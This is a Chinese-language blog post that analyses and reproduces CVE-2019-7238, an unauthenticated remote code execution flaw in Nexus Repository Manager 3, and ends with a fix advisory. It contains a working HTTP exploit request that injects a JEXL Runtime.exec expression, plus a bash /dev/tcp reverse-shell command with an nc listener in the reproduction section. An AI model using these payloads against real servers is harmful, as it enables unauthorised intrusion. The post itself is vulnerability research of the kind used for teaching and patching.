









# Nexus Repository Manager 3(CVE-2019-7238) 远程代码执行漏洞分析和复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/10564322.html`](https://www.cnblogs.com/backlion/p/10564322.html)

## 0x00 漏洞背景

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发 Maven，NuGET 等软件源仓库。其 3.14.0 及之前版本中，存在一处基于 OrientDB 自定义函数的任意 JEXL 表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。2019 年 2 月 5 日 Sonatype 发布安全公告，在 Nexus Repository Manager 3 中由于存在访问控制措施的不足，未授权的用户可以利用该缺陷构造特定的请求在服务器上执行 Java 代码，从而达到远程代码执行的目的。

## 0x01 影响范围

Nexus Repository Manager OSS/Pro 3.6.2 版本到 3.14.0 版本

## 0x02  漏洞概述

从官方的漏洞简述来看简单的来说就是由于未授权访问的用户可以构造请求而造成任意代码执行。而且因为 3.15.0+以上的版本增加了用户认证，所以 3.15.0+的版本不受此漏洞的影响。所以根据 diff 的结果，可以大致的确定漏洞在 org.sonatype.nexus.coreui.ComponentComponent#previewAssets：


# 

## 0x03  整体触发流程

```
ExtDirectModule$configure:60 # 路由绑定与请求解析
ExtDirectServlet$doPost:155 # 处理 post 请求
DirectJNgineServlet$doPost:595 # 根据不同的 Content-Type 来解析请求
 DirectJNgineServlet$processRequest:632 # 解析 json 请求
JsonRequestProcesor$process:119 # 解析 json 语法树
JsonRequestProcessor$getIndividualJsonRequests:216 # 提取 json 数据
JsonRequestProcesor$process:133 # 构造返回结构
ComponentComponent$previewAssets:188 # 解析 post 包中的 data 数据并构造查询语句查询包
ComponentComponent$previewAssets:208 # 获得查询结果
BrowseServiceImpl$previewAssets:252 # 构建 OrientDb 查询语句
BrowseServiceImpl$previewAssets:258 # 拼接查询语句
BrowseServiceImpl$previewAssets:262 # 执行查询
MetadataNodeEntityAdapter$countByQuery:221 # 执行 OrientDb 查询语句
ContextExpressionFunction$execute:125 # 提取 jexl 表达式
ContextExpressionFunction$checkJexlExpression:154 # 执行 jexl 表达式
```

## 0x03 漏洞分析

漏洞的触发主要分两部分：post 包解析及 jexl 表达式执行。

### 1\. post 包解析

首先先看一下 web.xml 中如何做的路由解析：


org.sonatype.nexus.bootstrap.osgi.DelegatingFilter 拦截了所有的请求，大概率为动态路由加载，动态路由加载需要配置相应的 Module 模块用代码将配置与路由进行绑定并显式加载 servlet，而该漏洞的入口就在 org.sonatype.nexus.extdirect.internal.ExtDirectModule#configure 中:


直接跟进 org.sonatype.nexus.extdirect.internal.ExtDirectServlet$doPost:


继续向下更进看到处理 post 请求的部分：


在这里我们跟进看一下如何对 json 格式的请求进行处理：


首先对 json 的语法树进行解析，将数据提取出来：


可以看到需要 5 个变量分别为 action、method、tid、type、data。

注意到 isBatched 是由参数长度决定的，而返回的一个数组，其长度为 1，所以 isBatched 为 false。之后就是传入 processIndividualRequestsInThisThread 方法中：


在这里构造返回的结果，可以看到这里在有一个 json 反序列化的过程，这里主要是将返回结果以 json 格式返回。

### 2\. jexl 表达式执行

从 post 包的解析中可以得知我们需要构造 5 个参数，同时当我们构造好 action 和 method 后，可以直接动态调用相应的类与方法。

这个漏洞出现在 org.sonatype.nexus.coreui.ComponentComponent#previewAssets:


首先将 post 包中 repositoryName、expression、type 的值取出来，这三个参数分别代表已经存在的 repository 的名字、expression 的类型，以及表达式。

着重看一下 jexl 的处理过程：


注意到这里只是实例化了一个 JexlSelector 对象，而并没有调用 evaluate 来执行表达式，所以漏洞的触发点在其他的位置。而真正的表达式执行点在 browseService.previewAssets 的处理过程中，这一点也是这个漏洞最为难找的一个点。

跟进 previewAssets 的实现，在 org.sonatype.nexus.repository.browse.internal.BrowseServiceImpl#previewAssets：


在这里可以看到表达式最后会被当做参数形成 SQL 查询，最后由 OrientDb 执行：


但是 OrientDb 本身是没有 contentExpression 这个方法的，也就是说明这个方法是用 Java 来实现的，找了一下，在 org.sonatype.nexus.repository.selector.internal.ContentExpressionFunction：


在 checkJexlExpression 中：


调用了 selectorManage.evaluate 来执行 jexl 表达式：


## 0x04 构造 POC

通过上面的分析，我们只需要按照 post 包解析中的参数进行相应的构造即可，下面为一个例子：

windows 环境搭建：

https://help.sonatype.com/repomanager3/download/download-archives---repository-manager-3

https://sonatype-download.global.ssl.fastly.net/nexus/3/nexus-3.14.0-04-unix.tar.gz

安装参考：

https://help.sonatype.com/learning/repository-manager-3/first-time-installation-and-setup/lesson-1%3A--installing-and-starting-nexus-repository-manager

在 windows 上安装成功了。需要执行(默认密码：admin/admin123)

nexus.exe /run    

其 POC 如下：                             

POST /service/extdirect HTTP/1.1

Host:155.138.147.1:8081

User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0

Content-Type: application/json

Content-Length: 308

Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":25,"filter":[{"property":"repositoryName","value":"*"},{"property":"expression","value":"''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":4}


注意，这个漏洞需要当 Nexus 中存在已有的 jar 包，在本地验证的时候先传一个 jar 报上去。至于原理分析可能后面会单独再拿出来分析。

## 0x05  环境搭建

1.在 Ubuntu 16.04 上安装 docker 和 docker-compose：

```
(1).安装 PIP
curl -s https://bootstrap.pypa.io/get-pip.py | python3
(2).安装 docker
curl -s https://get.docker.com/ | sh
```

```
(3).启动 docker 服务
```

```
service docker start
(4).安装 docker compose
pip install docker-compose
```

2.使用方法

```
(1).下载漏洞环境项目
git clone https://github.com/vulhub/vulhub.git
```

```
(2).进入到 nexus 利用环境
```

```
cd vulhub/nexus/CVE-2019-7238
(3).编译环境
docker-compose build
(4).执行如下命令启动 Nexus Repository Manager 3.14.0
docker-compose build
```



等待一段时间环境才能成功启动，访问 http://your-ip:8081 即可看到的 Web 页面。



账号使用密码 admin:admin123 登录后台，然后在 Maven 的版本下随便上传一个 JAR 包：



触发该漏洞，必须保证仓库里至少有一个包存在。

## 0x06 漏洞复现

1.下载漏洞利用 poc 项目

git clone   [`github.com/backlion/CVE-2019-7238.git`](https://github.com/backlion/CVE-2019-7238.git)

2.进入到 CVE-2019-7238 目录

cd   CVE-2019-7238

3.修改 cve-2019-7238.py.这里根据实际情况来修改 remote = ' http://127.0.0.1：8081 '和  ARCH = “ LINUX ”的值

vi     CVE-2019-7238.py



4.在攻击者系统中执行 cve-2019-7238.py 脚本，然后输入反弹 NC 的 bashbash  -i  >&  /dev/tcp/149.248.17.172/2333    0>&1               #这里的 IP 是攻击者系统的 IP 地址5.在攻击者系统中执行 NC 监听反弹 nc  -lvvp  2333

## 0x07  修复建议

目前官方已经发布新版本修改了该漏洞，建议您参照上述【安全版本】升级到对应的最新版本。

最新版本下载链接：

https://help.sonatype.com/repomanager3/download

## 0x08  参考链接

[`support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019`](https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019)

[`www.lucifaer.com/2019/02/19/Nexus%20Repository%20Manager%203%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-7238%EF%BC%89/`](https://www.lucifaer.com/2019/02/19/Nexus%20Repository%20Manager%203%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-7238%EF%BC%89/)

[`cert.360.cn/report/detail?id=3ec687ec01cccd0854e2706590ddc215`](https://cert.360.cn/report/detail?id=3ec687ec01cccd0854e2706590ddc215)

[`blog.csdn.net/caiqiiqi/article/details/87204472`](https://blog.csdn.net/caiqiiqi/article/details/87204472)

[`blog.51cto.com/13770310/2351479`](https://blog.51cto.com/13770310/2351479)

[`github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238`](https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238)